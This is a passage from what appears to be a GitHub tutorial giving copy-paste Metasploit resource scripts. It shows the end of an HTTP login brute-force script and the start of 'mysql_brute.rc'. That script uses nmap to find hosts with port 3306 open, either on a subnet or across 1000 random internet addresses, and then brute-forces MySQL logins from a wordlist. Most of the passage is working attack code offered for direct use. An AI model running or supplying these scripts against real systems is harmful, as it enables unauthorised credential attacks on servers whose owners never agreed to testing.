 ```
              run_single("use auxiliary/scanner/http/http_login")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set THREADS 16")
              run_single("exploit")
         end
      print_warning("please wait, Cleaning msfdb Database.")
      run_single("unsetg RHOSTS USERPASS_FILE")
      run_single("unset THREADS VERBOSE BRUTEFORCE_SPEED USERPASS_FILE STOP_ON_SUCCESS")
     run_single("services -d")
     run_single("hosts -d")
   </ruby>
```
**[in terminal]::Run the script::** `msfconsole -r /root/brute_force.rc`

<br /><br />

<blockquote>mysql_brute will use nmap to search/check for port 3306 open (mysql) then it populates the msfdb with a list of hosts found, and run auxiliary modules to gather info and brute force mysql services. if none value (setg) has povided then this resource script will use is own default values. (example: scan rhosts 192.168.1.0/24)</blockquote>

Open your text editor and copy/past the follow ruby (erb) code to it, save file and name it as: **mysql_brute.rc**
```
   <ruby>
      help = %Q|
        Description:
          setg RANDOM_HOSTS true - To instruct db_nmap to random search for hosts with port 3306 open
          setg RHOSTS 192.168.1.71 192.168.1.254 - To instruct db_nmap to check targets for port 3306 open
          setg USERPASS_FILE /root/my_dicionary.txt - To instruct auxiliarys to use our own dicionary file
          mysql_brute will use nmap to search/check for port 3306 open, then it populates the msfdb with
          a list of hosts found, and run auxiliary modules to gather info and brute force mysql services.
          if none value (setg) has povided then this resource script will use is own default values.

        Execute in msfconsole:
          setg RANDOM_HOSTS <true-or-blank>
          setg RHOSTS <hosts-separated-by-spaces>
          setg USERPASS_FILE <absoluct-path-to-dicionary.txt>
          resource <path-to-script>/mysql_brute.rc

        Author:
          r00t-3xp10it  <pedroubuntu10[at]gmail.com>
      |
      print_line(help)
      Rex::sleep(2.0)

      if (framework.datastore['RANDOM_HOSTS'] == 'true')
         print_line("RHOSTS => nmap -sV -Pn -T4 -iR 1000 -p 3306 --script=mysql-info.nse --open")
      elsif (framework.datastore['RHOSTS'] == nil or framework.datastore['RHOSTS'] == '')
         run_single("setg RHOSTS 192.168.1.0/24")
      elsif (framework.datastore['RHOSTS'])
         print_line("RHOSTS => #{framework.datastore['RHOSTS']}")
      end
      if (framework.datastore['USERPASS_FILE'] == nil or framework.datastore['USERPASS_FILE'] == '')
         run_single("setg USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt")
      end
```